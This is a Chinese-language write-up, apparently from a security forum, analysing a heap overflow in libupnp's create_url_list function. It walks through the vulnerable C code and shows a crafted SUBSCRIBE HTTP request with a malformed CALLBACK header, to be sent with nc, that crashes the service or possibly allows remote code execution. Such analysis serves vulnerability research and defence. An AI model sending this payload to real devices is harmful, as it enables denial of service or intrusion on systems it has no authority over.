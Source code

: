 同样的1.6.21以下版本出现的漏洞。

> Heap-based buffer overflow in the create\_url\_list function in  
> gena/gena\_device.c in Portable UPnP SDK (aka libupnp) before 1.6.21  
> allows remote attackers to cause a denial of service (crash) or  
> possibly execute arbitrary code via a valid URI followed by an  
> invalid one in the CALLBACK header of an SUBSCRIBE request

在create\_url\_list函数中存在的堆溢出，会导致Dos，问题出在CALLBACK的处理。  
定位到漏洞位置，这个给的是比较详细了。  
整个漏洞函数就只有两个大的for循环，第一个如下：

```c
for( i = 0; i < URLS->size; i++ ) {
    if( ( URLS->buff[i] == '<' ) && ( i + 1 < URLS->size ) ) {
        if( ( ( return_code = parse_uri( &URLS->buff[i + 1],
                                         URLS->size - i + 1,
                                         &temp ) ) == HTTP_SUCCESS )
            && ( temp.hostport.text.size != 0 ) ) {
            URLcount++;
        } else {
            if( return_code == UPNP_E_OUTOF_MEMORY ) {
                return return_code;
            }
        }
    }
}
```

在这个循环中对传入的url字符串遍历，直到匹配到"&lt;"字符串并且i此时还小于size，然后调用函数解析这个url，如果成功解析则URLcount++，解析失败则判断return\_code是不是指定的ret\_code。  
接着再看下面的循环。

![Pasted image 20220818165451.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-2b158b06d44f1fd24d22d9cfa15b0f1052400687.png)  
如果URLcount大于0则为URL申请一片空间，为解析后的URL也申请空间。之后把存储源URL的buffer拷贝到out的空间中，之后的for循环也是对目标url的解析，但是解析的结果要存放在预先分配的parsedURLS堆空间，这里注意到，for循环使用的是原始的字符串，也就是说此时如果URLcount=1也是可能的，因为如果有两个url，第一个成功解析，而第二个解析失败，就会在第一个for循环跳出，此时URLcount=1，所以说第二次parase的时候，URLcount=0，没问题，正常解析，当解析到后面哪个错误的url的时候，此时URLcount=1，而预先malloc的空间却只有一个，这就导致了单个堆溢出（数组越界）  
这个越界的值被传入parse\_URI，当处理完毕的时候，该地址会被解析，然后写入处理之后的值，这个影响有点不定，有时没有关系，又是会导致crash，有时也会RCE。

```http
SUBSCRIBE /upnp/control/WANIPConn1 HTTP/1.1
HOST: 0.0.0.0:49152
CALLBACK: <http://192.168.1.1:49153/gatedesc.xml><12//:49153
NT: upnp:event
TIMEOUT: Second-1801

```

利用就是nc端口，把上面的数据包发一下就行了，注意端口自己确定，还有订阅的url也是具体情况具体分析。

更早版本的lubupnp也有漏洞，出现的位置是ssdp的处理上，详细的就不在这里细说了，附上讲解的链接。  
<https://www.cnblogs.com/Shepherdzhao/p/7570632.html>

0x02 Others
===========
